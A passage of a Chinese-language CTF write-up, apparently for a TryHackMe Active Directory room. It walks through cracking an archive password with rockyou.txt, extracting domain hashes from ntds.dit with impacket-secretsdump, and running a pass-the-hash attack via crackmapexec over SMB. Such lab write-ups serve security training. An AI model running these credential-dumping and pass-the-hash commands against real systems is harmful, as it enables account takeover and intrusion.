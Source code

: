 现在让我们试着用 rockyou.txt 文件来破解它:

![](img/ee3a705d9e46f3efceb9be0196962b16.png)

它在几秒钟内破解了密码。现在我们可以获得 ntds.dit 和 system.hive 文件

![](img/4172b6418f25a68411c94041402b9e77.png)

现在我们可以在 secretdump 的帮助下像这样阅读它:

```
impacket-secretsdump -ntds ntds.dit -system system.hive local > hashes.txt
```

现在我们得到了所有用户的哈希值！！

但是在 CTF 被询问的用户的散列我认为是本地帐户，因为这些帐户散列在上述文件中没有找到。

但是我们有管理员哈希，DC 默认启用 PSRemoting，所以我们可能可以使用 evil-winrm 登录。

出于某种原因，我不知道我甚至不能登录到管理员帐户，可能是不是本地管理员！！

所以，现在我们需要执行一个传递散列攻击。在 tryhackme 上，他们要求提供属于比勒陀利亚用户的 Ljudmila 的散列，我们之前在我们的用户名单词列表中找到了它，但是在我们从 zip 文件创建的转储中没有该用户的名称。

我们可以尝试传递散列。

让我们为从转储中获得的所有散列创建一个适当的列表。

从栈顶输出中删除不必要的东西。而格式 hashs.txt 就像这样:

```
cat hashes.txt | cut -d ":" -f 4 > clean_hash.txt
```

现在让我们使用 crackmapexec 来传递散列

```
crackmapexec smb <ip> -u lvetrova -H clean_hash.txt
```
